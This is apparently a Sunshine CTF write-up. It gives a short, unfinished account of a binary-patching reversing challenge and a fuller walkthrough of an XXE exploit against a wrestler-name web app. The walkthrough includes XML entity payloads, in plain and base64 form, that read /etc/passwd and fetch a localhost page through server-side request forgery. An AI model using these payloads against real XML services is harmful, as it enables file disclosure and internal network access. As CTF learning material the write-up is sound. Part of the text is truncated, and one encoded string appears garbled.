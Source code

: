 # Sunshine CTF

## Challenge #1: Patches Punches (reversing)

This challenge was a reversing challenge. The hint presented was: 

```
That moment when you go for a body slam and you realize you *jump* too far. Adjust your aim, and you'll crush this challenge!
```

So immediately, I knew that the challenge has something to do with jumps. The first step I took was executing the binary. The program outputed a single line with no means of input.

```bash
$ ./patches
$ Woah there! you jumped over the flag.
```

Upon openning the binary in Binary Ninja, I inspected the code initally to find where the program prints its flag and at what point it branches away from normal execution and prints the previous output. The following portion of the assembly 

```assembly
00000534  05a41a0000         add     eax, 0x1aa4  {_GLOBAL_OFFSET_TABLE_}
00000539  c745f001000000     mov     dword [ebp-0x10 {var_18}], 0x1
00000540  837df000           cmp     dword [ebp-0x10 {var_18}], 0x0
00000544  755d               jne     0x5a3  {0x1}
```

## Challenge #2: Wrestler Name Generator (web)

This challenge presented a website which, upon entering the first and last name and choosing a weapon of choice, would generate a wrestler name. The landing page looks like this:
tput.
![Screenshot](/ctf/images/pic1.png?raw=true)

**Screenshot of the main landing page**

![Screenshot](/ctf/images/pic2.png?raw=true)

**Screenshot of the result page**

The first step I took was to look at the page source, and I found the javascript at the bottom of the page (included below). I noticed that the main purpose of the JS is to pass the entered first and last name as an XML object, encoded as base-64 and made safe for URL as a GET parameter to the page /generate.php?input=XMLSTRING.

```javascript
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
```

Similarly, examining the source code of the result page (second screenshot) yielded this interesting comment: 

```
<!--hacker name functionality coming soon!-->
<!--if you're trying to test the hacker name functionality, make sure you're accessing this page from the web server-->
<!--<h2>Your Hacker Name Is: REDACTED</h2>-->
```

Immediately, I thought about exploiting the common XXE (XML External Entity) vulnerability. Rather than entering the XML exploit into the input element of the website, I tried passing the XML string drectly into the URL `http://ng.sunshinectf.org/generate.php?input=[XML]`.

The XML object format was this:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<input>
  <firstName>firstName</firstName>
  <lastName>lastName</lastName>
</input>
```

Encoded into a URL safe base-64 string, this XML object became this: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BZmlyc3ROYW1lPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPmxhc3ROYW1lPC9sYXN0TmFtZT4KPC9pbnB1dD4%3D` passing that string to the generate.php page as the input parameter successfully rendered the page.

I then tried to pass an XML entity exploit to see if it would yield a result. So, I tried accessing `/etc/passwd`. I used the following XML code:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Which encoded and made URL safe yielded the string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPCFET0NUWtionVBFIGVybncgWyA8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiID4gXT4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT4KPC9pbnB1dD4%3D`. This string, entered into the URL parameter yielded the following result page.

![Screenshot](/ctf/images/pic4.png?raw=true)

This is promising! It shows the contents of `/etc/passwd`. So let;s try to figure out how to get the actual flag. I thought that it might have to do with the aoffrementioned comment on the /generate.php page (that the page needs to be accessed from the webserver to see the secret Hacker Name). So I tried to use the XML function to access a remote host's page by replacing `file:///etc/passwd` with `http://localhost/generate.php`. The final XML string passed was:


```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "http://localhost/generate.php" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Whhich was translated into this string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZXJudyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImh0dHA6Ly9sb2NhbGhvc3QvZ2VuZXJhdGUucGhwIiA%2BIF0%2BPGlucHV0PjxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT48L2lucHV0Pg%3D%3D`, which passed to the /generate.php page yielded the flag:

![Screenshot](/ctf/images/pic5.png?raw=true)

